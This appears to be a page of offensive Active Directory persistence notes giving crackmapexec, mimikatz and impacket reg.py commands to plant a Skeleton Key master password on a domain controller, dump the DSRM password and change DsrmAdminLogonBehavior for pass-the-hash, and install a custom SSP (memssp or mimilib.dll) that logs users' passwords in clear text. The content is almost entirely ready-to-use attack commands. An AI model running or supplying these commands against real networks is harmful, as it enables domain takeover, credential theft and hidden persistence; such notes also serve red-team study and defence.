 ### Skeleton Key

```bash
crackmapexec smb <DC_IP> -u 'Administrator' -p 'password' -M mimikatz -o COMMAND='misc::skeleton'
```

Now, it is possible to access any machine with a valid username and password as "mimikatz"

### DSRM

* DSRM is Directory Services Restore Mode
* The local administrator on every DC can authenticate with the DSRM password
* It is possible to pass the hash of this user to access the DC after modifying the DC configuration

#### Dump DSRM password

```bash
crackmapexec smb <DC_IP> -u user1 -p password --sam
```

#### Change registry configuration

Need to change the logon behavior before pass the hash

```bash
reg.py -dc-ip <DC_IP> 'domain.local'/'Administrator':'password'@dc.domain.local add -keyName 'HKLM\\System\\CurrentControlSet\\Control\\Lsa\\' -v 'DsrmAdminLogonBehavior' -vd 2 -vt REG_DWORD
```

Now the DSRM hash ca be used to authenticate

### Custom SSP

SSP are DDLs that provide ways to authenticate for the application. For example Kerberos, NTLM, WDigest, etc. Mimikatz provides a custom SSP that permits to log in a file in clear text the passwords of the users that authenticate on the machine.

* By patching LSASS (really instable since Server 2016)

```bash
crackmapexec smb <target> -u user1 -p password -M mimikatz -o COMMAND='misc::memssp'
```

* By modifying the LSA registry

Upload the `mimilib.dll` to **system32** and add mimilib to `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages` :

```bash
#Retrieve the actual values of Security Package
reg.py -dc-ip <DC_IP> 'domain.local'/'Administrator':'password'@dc.domain.local query -keyName 'HKLM\\System\\CurrentControlSet\\Control\\Lsa\\' -v 'Security Packages' -s

#Append mimilib to the previous list
reg.py -dc-ip <DC_IP> 'domain.local'/'Administrator':'password'@dc.domain.local add -keyName 'HKLM\\System\\CurrentControlSet\\Control\\Lsa\\' -v 'Security Packages' -vd "<list> mimilib" -vt REG_MULTI_SZ
```
